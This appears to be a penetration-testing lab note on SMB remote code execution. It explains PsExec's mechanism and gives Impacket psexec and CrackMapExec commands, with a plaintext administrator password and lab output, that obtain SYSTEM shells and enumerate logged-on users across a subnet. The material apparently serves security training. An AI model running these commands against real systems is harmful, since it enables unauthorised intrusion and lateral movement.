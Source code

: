 #### Remote Code Execution (RCE)
* [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) is a tool that lets us execute processes on other systems, complete with full interactivity for console applications, without having to install client software manually
* Has a Windows service image inside its executable
* Takes this service and deploys it to the admin$ share (by default) on the remote machine
* Then uses the DCE/RPC interface over SMB to access the Windows Service Control Manager API
* Starts the PSExec service on the remote machine
* PSExec service then creates a [named pipe](https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes) that can send commands to the system

#### Impacket PsExec
```bash
impacket-psexec administrator:'Password123!'@10.10.110.17

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.110.17.....
[*] Found writable share ADMIN$
[*] Uploading file EHtJXgng.exe
[*] Opening SVCManager on 10.10.110.17.....
[*] Creating service nbAc on 10.10.110.17.....
[*] Starting service nbAc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19041.1415]
(c) Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami && hostname

nt authority\system
WIN7BOX
```

#### CrackMapExec
```bash
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:.) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] .\Administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Executed command via smbexec
SMB         10.10.110.17 445    WIN7BOX  nt authority\system
```

**Note:** If the `--exec-method` is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.

#### Enumerating Logged-on Users
```bash
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser                logon_server: WIN10BOX
```

